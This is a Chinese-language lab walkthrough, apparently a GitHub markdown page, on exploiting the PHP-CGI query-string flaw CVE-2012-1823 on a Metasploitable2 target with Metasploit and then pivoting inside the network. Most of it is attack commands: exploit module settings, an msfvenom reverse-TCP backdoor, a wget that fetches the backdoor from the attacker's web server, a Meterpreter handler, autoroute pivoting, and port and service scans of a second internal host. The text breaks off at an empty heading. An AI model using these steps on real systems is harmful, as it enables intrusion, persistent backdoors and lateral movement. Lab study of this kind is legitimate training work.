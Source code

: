 # Metasploit攻击PHP-CGI查询字符串参数漏洞并渗透内网

攻击机：Kali 192.168.109.137

靶机： Metasploitable2 192.168.109.159

内网另一台主机 Windows Server 2012

工具：Metasploit

目标计算机上的漏洞编号为CVE id 2012-1823，完整的名称为PHP-CGI查询字符串参数漏洞，根据PHP主页的信息，当PHP使用基于CGI的设置(如Apache的mod_cgid)时，php-cgi就会收到一个查询字符串参数作为命令行参数(这个命令行参数可以是-s、-d或者-c),它将被传递到php-cgi程序，从而导致源代码泄露和任意代码执行。因此，一个远程的、未经授权的攻击者可以借此获取敏感信息，利用目标计算机来进行Dos攻击，或者取得Web服务器执行任意代码的权限。

## 开启MSF

```
msfconsole
```

## 查找MSF中与CVE id 2012-1823漏洞匹配的模块

```
search "php 5.2.4"
```

## 对漏洞进行渗透

```
use exploit/multi/http/php_cgi_arg_injection
show options
set RHOST 192.168.109.159
show options
show payloads
set payload php/meterpreter/reverse_tcp
show options
set LHOST 192.168.109.137
exploit
```

现在，我们攻克了IP地址为192.168.109.159的内部系统了，现在我们需要将Meterpreter提升为更高的权限

## 生成木马文件

在攻击机Kali上新开一个命令行终端，执行如下命令：

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST 192.168.109.137 LPORT 4444 -f elf > backdoor.elf
```

注：elf是Linux系统下的默认扩展名

## 启动Kali上的Apache服务并将backdoor.elf放置到服务器中

```
service apache2 start
mv backdoor.elf /var/www/html/
```

这样，就可以让目标系统从我们的计算机中下载这个木马文件了。

## 在目标机上下载木马文件

切换到第3步的终端，执行命令：

```
shell
wget http://192.168.109.137/backdoor.elf
```

即将木马文件下载到了目标机上

## 在新开启的终端上执行如下命令

```
msfconsole
use exploit/multi/handler
set payload linux/x86/meterpreter/reverse_tcp
set LHOST 192.168.109.137
set LPORT 4444
exploit
```

## 在目标机上运行木马文件

切换到第3步的终端，执行命令：

```
chmod 7777 backdoor.elf
./backdoor.elf
```

## 查看反弹的Meterpreter终端

回到新开启的终端上查看，此时，我们看到已经反弹回Meterpreter命令行了。

接下来，就可以在Meterpreter终端进行操作了。

**下面，我们渗透内部网络。**

## 查看ARP内容

```
arp
```

由输出可以看出，内网中有另一主机IP地址为：192.168.109.141

为了渗透进入这个内部网络，需要在成功渗透的主机上使用autoroute命令来设置跳板。

## 设置跳板

在Meterpreter终端执行：

```
run autoroute -p
run autoroute -s 192.168.109.0 255.255.255.0
run autoroute -p
```

此时，我们的MSF就可以通过这个Meterpreter会话连接到内部网络。

## 将Meterpreter会话切换到后台

```
background
```

## 内网主机192.168.109.141进行端口扫描

```
use auxiliary/scanner/portscan/tcp
show options
setg RHOSTS 192.168.109.141
run
```

注意：设置RHOSTS的值时，这里使用的是setg命令，这样就会使RHOSTS的值设置为全局的192.168.109.141，从而无需反复输入这个命令。

这里，我们仅仅看到少数几个开发的端口，接下来，我们使用MSF中对应工具对常见的端口再进行详细的扫描。使用auxiliary/scanner/http/http_header模块对目标80和8080端口进行扫描，以发现在这两个端口上运行的服务。

## 查看在80、8080端口上运行的服务

```
use auxiliary/scanner/http/http_header
set RHOSTS 192.168.109.141
set HTTP_METHOD GET
run
set RPORT 8080
run
```

从输出中可以看到，目标计算机80端口上运行着最新的IIS 8.5, 这是一个很难渗透的服务器，因为并没有在这个服务器上发现高危的漏洞。不过，在8080端口上运行着HFS 2.3，这个软件存在着一个远程代码执行漏洞。

## 